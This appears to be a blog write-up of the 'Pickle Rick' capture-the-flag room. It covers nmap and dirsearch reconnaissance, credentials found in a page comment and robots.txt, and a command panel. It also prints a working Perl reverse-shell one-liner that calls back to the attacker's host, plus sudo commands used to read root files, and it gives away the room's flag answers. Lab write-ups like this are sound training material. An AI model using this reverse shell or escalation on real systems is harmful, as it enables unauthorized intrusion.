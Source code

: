 # NOTE: This was a blog from *vipin.xyz* see [this](https://www.vipin.xyz/blog/archive)

# Pickle Rick | Writeup

An extra-fun web server exploitation room

Released: 2024-03-10

## 📡 NMAP Scan

```bash
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.108.226
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 21:47 EST
Nmap scan report for 10.10.108.226
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

- Port 22 & 80 are open.

## 🌐 Accessing the website

- Port 80 is open according to the NMAP scan, this means a webpage should be on the server.

![Image showing the website](blog/picklerick/website.png 'Fig.1')
<div style={{ textAlign: 'center' }}>
  <small>Fig.1</small>
</div>

- Judging by the blatent hint "**BURRRRP**", we need to use Burpsuite.

## 🟧🔎 Burpsuite & Dirsearch

![Image showing a comment](blog/picklerick/secretcomment.png 'Fig.2')
<div style={{ textAlign: 'center' }}>
  <small>Fig.2</small>
</div>

- The page source has a comment with a username, let's keep this for future reference.

- Since we have no leads to follow, let's run Dirsearch!

```bash
┌──(vipin㉿vipin)-[~]
└─$ dirsearch -u http://10.10.108.226 --exclude-status 403,404
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/http_10.10.108.226/_24-03-09_23-40-12.txt

Target: http://10.10.108.226/

[23:40:12] Starting:                                                                                  
[23:40:36] 200 -  588B  - /assets/                                          
[23:40:36] 301 -  315B  - /assets  ->  http://10.10.108.226/assets/
[23:40:53] 200 -  455B  - /login.php                                        
[23:41:03] 200 -   17B  - /robots.txt                                       
                                                                             
Task Completed
```

## Aquiring the Ingredients

- I will look at */robots.txt* as typically challenge creators place a lot of information here...

![Image showing robots.txt](blog/picklerick/robotstxt.png 'Fig.3')
<div style={{ textAlign: 'center' }}>
  <small>Fig.2 */robots.txt*</small>
</div>

- Odd... I will also keep this for future reference.

- */login.php* seems to be the only page of use.

![Image showing login page](blog/picklerick/login.png 'Fig.4')
<div style={{ textAlign: 'center' }}>
  <small>Fig.4</small>
</div>

- We know the username is *R1ckRul3s*... But what if we try that string of text we found in */robots.txt*?

![Image showing us logged in](blog/picklerick/loggedin.png 'Fig.5')
<div style={{ textAlign: 'center' }}>
  <small>Fig.5</small>
</div>

- IT WORKED!!!! It seems like we get a Command Panel to the server.

- Running ```ls``` in the Command Panel outputs this... (see Fig.6)

![Image showing me running ls](blog/picklerick/ls.png 'Fig.6')
<div style={{ textAlign: 'center' }}>
  <small>Fig.6</small>
</div>

- Let's try to view the first ingredient...

![Image showing it not letting me](blog/picklerick/commandissue.png 'Fig.7')

- I think we have to spawn a Reverse Shell (I will be using [revshells.com](https://www.revshells.com/))

```bash
# This is what I entered in the Command Panel to gain a reverse shell.

perl -e 'use Socket;$i="10.6.22.229";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

- On my own terminal...

```bash
──(vipin㉿vipin)-[~]
└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.6.22.229] from (UNKNOWN) [10.10.108.226] 35408
sh: 0: can't access tty; job control turned off
$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

- We got the first ingredient so let's try to get the second ingredient too!

```bash
$ pwd
/home/rick
$ cat second\ ingredients
1 jerry tear
$ 
```

- To get the final ingredient, we need to privilege escalate. Running ```sudo -l``` informs me I have full `sudo` permissions. Let's aquire the final ingredient...

```bash
$ sudo ls root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
$ 
```

### MACHINE PWN'ED 😎

